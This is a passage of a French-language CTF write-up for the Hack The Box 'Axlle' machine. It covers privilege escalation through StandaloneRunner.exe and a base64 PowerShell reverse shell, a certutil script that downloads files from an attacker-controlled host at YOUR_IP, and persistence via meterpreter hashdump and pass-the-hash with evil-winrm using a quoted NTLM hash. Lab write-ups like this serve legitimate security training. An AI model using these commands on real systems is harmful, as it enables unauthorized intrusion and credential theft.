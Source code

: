 ![README location](/images/HTB-Axlle/README-location.png)

[Cette page Github](https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md) montre comment exploiter `StandaloneRunner.exe`.

1. Créer un fichier `reboot.rsf`, avec le contenu suivant. Ce fichier doit se trouver dans le même répertoire que `standalonerunner.exe` et `standalonexml.dll`.

```
myTestDir
True
```

2. Créer un répertoire avec la structure suivante `myTestDir\working`.

3. Créer un fichier `rsf.rsf` vide dans `myTestDir\working`.

4. Créez `command.txt` avec le reverse shell dans le même répertoire que `standalonerunner.exe`. (pour le reverse shell, j'ai utilisé PowerShell #3 (Base64) sur [revshells.com](https://www.revshells.com/))

Nous pouvons utiliser le script powershell ci-dessous pour automatiser toutes ces étapes.

```powershell
certutil.exe -urlcache -split -f "http://YOUR_IP:WEBSERVER_PORT/reboot.rsf" "reboot.rsf"

New-Item -Path "myTestDir\working" -ItemType "Directory" -Force

New-Item -Path "myTestDir\working" -Name "rsf.rsf" -ItemType "File"

certutil.exe -urlcache -split -f "http://YOUR_IP:WEBSERVER_PORT/command.txt" "command.txt"
```

![exploit script](/images/HTB-Axlle/exploit_script.png)

Après quelques secondes, nous obtenons un shell en tant qu'administrateur et nous pouvons lire le drapeau root.

![root flag](/images/HTB-Axlle/root_flag.png)

## Persistance

Notre accès au compte administrateur est un processus long et fastidieux. Afin d'établir la persistance, nous pouvons passer à un shell meterpreter et extraire les hashs avec `hashdump`. Nous récupérons alors les hachages des mots de passe de nombreux comptes sur la cible.

![hashdump command](/images/HTB-Axlle/hashdump.png)

Nous n'avons même pas besoin de les craquer, puisque nous pouvons les utiliser avec evil-winrm pour nous connecter.

```
evil-winrm -u "Administrator" -H 6322b5b9f9daecb0fefd594fa6fafb6a -i dc.axlle.htb
```

![administrator login via evil-winrm](/images/HTB-Axlle/Admin-login.png)

Merci d'avoir lu cet article!
